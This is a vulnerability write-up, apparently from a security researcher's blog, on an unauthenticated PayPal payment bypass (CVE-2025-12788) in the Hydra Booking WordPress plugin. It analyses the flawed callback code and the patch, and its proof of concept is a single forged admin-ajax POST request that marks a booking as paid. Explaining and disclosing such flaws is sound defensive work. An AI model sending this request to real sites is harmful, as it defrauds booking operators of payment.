







<!--more-->

## CVE & Basic Info

The **Hydra Booking — Appointment Scheduling & Booking Calendar** plugin for **WordPress** is affected by a **missing payment verification vulnerability**, allowing **payment bypass without authentication** in **all versions up to and including 1.1.27**. The root cause is that the plugin **accepts client-controlled payment confirmation data** in the **`tfhb_meeting_paypal_payment_confirmation_callback`** function **without server-side verification with PayPal’s API**. This allows **unauthenticated attackers** to **bypass payment requirements** and **confirm bookings as paid** without any real payment transaction occurring.

* **CVE ID**: [CVE-2025-12788](https://www.cve.org/CVERecord?id=CVE-2025-12788)
* **Vulnerability Type**: Bypass Vulnerability
* **Affected Versions**: <= 1.1.27
* **Patched Versions**: 1.1.28
* **CVSS severity**: Low (5.3)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Hydra Booking Plugin](https://wordpress.org/plugins/hydra-booking/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **Hydra Booking**:

  * `1.1.27` – **vulnerable**
  * `1.1.28` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Analysis

According to the CVE description, the vulnerability occurs because the system allows users to **create bookings and have them marked as paid** without any **real payment transaction**, due to the absence of **server-side verification with PayPal’s API**.

To pay via PayPal, go to `Hydra Booking` > `Settings` > `Integrations` and enable PayPal in `Sandbox` mode when setting up locally.



Next, configure the price for the booking at:

```
http://localhost/wp-admin/admin.php?page=hydra-booking#/meetings/single/{meeting_id}/payment
```



The payment flow of the application consists of two steps:

* **Booking**
* **Payment**

### Booking

Click `Preview` on the created meeting to be redirected to the booking page.



To view booking status, go to:

```
http://localhost/wp-admin/admin.php?page=hydra-booking#/bookings/details/{booking_id}
```



Here, the Payment status is `pending`; after payment it will change to `complete`.

### Payment

The plugin registers the following action hook for payment:

```php {title="HydraBookingShortcode.php v1.1.27"}
add_action( 'wp_ajax_nopriv_tfhb_meeting_paypal_payment_confirmation', array( $this, 'tfhb_meeting_paypal_payment_confirmation_callback' ) );
```

`wp_ajax_nopriv_` is a hook for all users (including unauthenticated). When a request is sent to `/wp-admin/admin-ajax.php` with the parameter `action=tfhb_meeting_paypal_payment_confirmation`, the callback `tfhb_meeting_paypal_payment_confirmation_callback` is executed to handle payment.

```php {title="HydraBookingShortcode.php v1.1.27" hl_lines=[3,24,35,39] data-open=true}
public function tfhb_meeting_paypal_payment_confirmation_callback(){
    // Checked Nonce validation.
    if ( ! isset( $_POST['nonce'] ) || ! wp_verify_nonce( $_POST['nonce'], 'tfhb_nonce' ) ) {
        wp_send_json_error( array( 'message' => esc_html(__('Nonce verification failed', 'hydra-booking')) ) );
    }

    // Check if the request is POST.
    if ( 'POST' !== $_SERVER['REQUEST_METHOD'] ) {
        wp_send_json_error( array( 'message' => esc_html(__('Invalid request method', 'hydra-booking')) ) );
    }

    // Check if the request is not empty.
    if ( empty( $_POST ) ) {
        wp_send_json_error( array( 'message' => esc_html(__('Invalid request', 'hydra-booking')) ) );
    }
    $payment_details = isset( $_POST['payment_details'] ) ? $_POST['payment_details'] : array();
    $responseData = isset( $_POST['responseData'] ) ? $_POST['responseData'] : array();

    
    $payment_id = isset( $payment_details['id'] ) ? sanitize_text_field( $payment_details['id'] ) : '';
    $payer_id = isset( $payment_details['payer']['payer_id'] ) ? sanitize_text_field( $payment_details['payer']['payer_id'] ) : '';
    $hash = isset( $responseData['data']['hash'] ) ? sanitize_text_field( $responseData['data']['hash'] ) : '';
    $booking_id = isset( $responseData['data']['booking_id'] ) ? sanitize_text_field( $responseData['data']['booking_id'] ) : '';
    $attendee_id = isset( $responseData['data']['attendee_id'] ) ? sanitize_text_field( $responseData['data']['attendee_id'] ) : '';
    $meeting_id = isset( $responseData['data']['booking']['meeting_id'] ) ? sanitize_text_field( $responseData['data']['booking']['meeting_id'] ) : '';	
    $host_id = isset( $responseData['data']['booking']['host_id'] ) ? sanitize_text_field( $responseData['data']['booking']['host_id'] ) : '';	
    $customer_id = isset( $responseData['data']['booking']['attendee_id'] ) ? sanitize_text_field( $responseData['data']['booking']['attendee_id'] ) : '';	
    $payment_method = isset( $responseData['data']['booking']['payment_method'] ) ? sanitize_text_field( $responseData['data']['booking']['payment_method'] ) : '';	
    $total =  isset($payment_details['purchase_units'][0]['amount']['value']) ? sanitize_text_field( $payment_details['purchase_units'][0]['amount']['value'] ) : '';
    
    $attendee     = new  Attendees();

    $attendeedata = array(
        'id'             => $attendee_id,
        'payment_status' => 'Completed',
    );
    
    // attendee Update
    $attendeeUpdate = $attendee->update( $attendeedata );

    $charge = array(
        'payment_id'    => ! empty( $payment_id ) ? $payment_id : '', 
        'payer_id'      => ! empty( $payer_id  ) ? $payer_id  : '',
        'booking_id'      => ! empty( $booking_id  ) ? $booking_id  : '', 
        'attendee_id'      => ! empty( $attendee_id  ) ? $attendee_id  : '', 
    );
    // Data for Transactions Table
    $tdata        = array(
        'booking_id'         => $booking_id,
        'attendee_id'         => $attendee_id,
        'meeting_id'         => $meeting_id,
        'host_id'         => $host_id,
        'customer_id'         => $booking_id,
        'payment_method'         => $payment_method, 
        'total'         => $total,
        'transation_history' => wp_json_encode( $charge ),
        'status' => 'completed',
    );

    $Transactions = new Transactions();
    $Transactions = $Transactions->add( $tdata );

    // After Booking Hooks
    do_action( 'hydra_booking/after_booking_payment_complete', $attendeedata );

    // return success message
    $response['message'] = esc_html(__('Payment Completed Successfully', 'hydra-booking'));
    wp_send_json_success( $response );
    
}
```

The function performs nonce checking to prevent **CSRF**:

```php
if ( ! isset( $_POST['nonce'] ) || ! wp_verify_nonce( $_POST['nonce'], 'tfhb_nonce' ) ) {
    wp_send_json_error( array( 'message' => esc_html(__('Nonce verification failed', 'hydra-booking')) ) );
}
```

Searching for `tfhb_nonce`:



We can see that the nonce is created and assigned to the `tfhb_app_booking` object, then returned in the response when users access the booking page.


This value can be used to bypass the nonce check.

Next, the function checks that the method is **POST** and the request is not empty, then allows further logic:

```php
if ( 'POST' !== $_SERVER['REQUEST_METHOD'] ) {
    wp_send_json_error( array( 'message' => esc_html(__('Invalid request method', 'hydra-booking')) ) );
}

// Check if the request is not empty.
if ( empty( $_POST ) ) {
    wp_send_json_error( array( 'message' => esc_html(__('Invalid request', 'hydra-booking')) ) );
}
```

The most critical and dangerous part is:

```php
$attendeedata = array(
    'id'             => $attendee_id,
    'payment_status' => 'Completed',
);

// attendee Update
$attendeeUpdate = $attendee->update( $attendeedata );
```

* The function directly updates the attendee payment status to `Completed`.
* As long as an `attendee_id` is supplied by the client, the system treats the payment as successful. (`responseData[data][attendee_id]={id}`)

`attendee_id` format:

```
responseData[data][attendee_id]={id}
```

Patch `v1.1.28` **fully fixes the payment bypass** by adding **server-side PayPal verification** and **strict booking data validation**, specifically:



* **No longer trusting client data**: validates `booking_id`, `attendee_id`, `hash`, `payment_method` against DB records.
* **Validates PayPal configuration** before processing.
* **Calls PayPal API to verify real transactions**:

  * Obtains **access token** via OAuth.
  * Queries **order details** using `payment_id`.
  * Verifies:

    * order status = **COMPLETED**
    * matching `payer_id`
    * matching amount and currency
    * capture status = **COMPLETED** (if applicable)
* **Only after successful verification updates**:

  * `payment_status = Completed`
  * `booking status = confirmed`
  * inserts/updates transaction records in DB
* **Prevents double payment**: if already `Completed`, it does not process again.

As a result, **forged client requests are no longer sufficient to confirm payment**, and the “paid” status is only set when **PayPal confirms a valid transaction on the server side**.

## Flow



## Proof of Concept (PoC)

1. Perform booking.

2. Send payment request:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
action=tfhb_meeting_paypal_payment_confirmation&nonce=8f5959255a&responseData[data][attendee_id]=5
```


## Conclusion

The vulnerability in Hydra Booking v1.1.27 is caused by a **business logic flaw**, where the system **trusts client-supplied payment confirmation data** and updates the payment status to **Completed** without **server-side verification with PayPal**. Since the payment confirmation endpoint allows **unauthenticated access** and the nonce can be obtained directly from the booking page, attackers can **craft POST requests** to mark bookings as paid without performing real transactions.

The patch in v1.1.28 fixes this by **verifying transactions with the PayPal API** and **cross-checking booking data in the database** before updating payment status.

## Key Takeaways

* Never **trust client-side payment data** to confirm transactions.
* Always require **server-side verification with the payment gateway** before updating status.
* **Nonce only protects against CSRF**, not business logic abuse.
* Endpoints using `wp_ajax_nopriv_` should be treated as **public APIs** and must validate data strictly.

## References

[Bypass Vulnerability](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress Hydra Booking Plugin <= 1.1.27 is vulnerable to Bypass Vulnerability](https://patchstack.com/database/wordpress/plugin/hydra-booking/vulnerability/wordpress-hydra-booking-plugin-1-1-27-missing-payment-verification-to-unauthenticated-payment-bypass-vulnerability)